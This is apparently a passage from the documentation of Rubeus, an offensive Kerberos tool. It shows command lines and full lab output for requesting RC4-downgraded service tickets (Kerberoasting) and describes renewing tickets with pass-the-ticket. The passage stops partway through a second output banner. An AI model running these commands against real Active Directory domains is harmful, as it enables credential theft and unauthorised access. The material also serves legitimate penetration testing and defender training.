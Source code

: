 
Requesting a service ticket for an AES-enabled service account, specifying that we _only_ support RC4_HMAC:

 C:\Rubeus>Rubeus.exe asktgs /ticket:doIFmjCCBZagAwIBBaEDAgEWoo...(snip).../service:roast/me /enctype:rc4

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.4.1

 [*] Action: Ask TGS

 [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
 [*] Requesting 'rc4_hmac' etype for the service ticket
 [*] Building TGS-REQ request for: 'roast/me'
 [+] TGS request successful!
 [*] base64(ticket.kirbi):

 doIFrjCCBaqgAwIBBaEDA...(snip)...

 [*] Action: Describe Ticket

 UserName : dfm.a
 UserRealm : TESTLAB.LOCAL
 ServiceName : roast/me
 ServiceRealm : TESTLAB.LOCAL
 StartTime : 2/25/2019 359 PM
 EndTime : 2/25/2019 854 PM
 RenewTill : 3/4/2019 354 PM
 Flags : name_canonicalize, pre_authent, renewable, forwardable
 KeyType : rc4_hmac
 Base64(key) : Gg3zZicIl5c50KGecCf8XA==


### renew

The **renew** action will build/parse a raw TGS-REQ/TGS-REP TGT renewal exchange using the specified `/ticket:X` supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a `/dc` is not specified, the computer's current domain controller is extracted and used as the destination for the renewal traffic. The `/ptt` flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session.

Note that TGTs MUST be renewed before their EndTime, within the RenewTill window.

 C:\Rubeus>Rubeus.exe renew /ticket:ticket.kirbi /ptt

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/
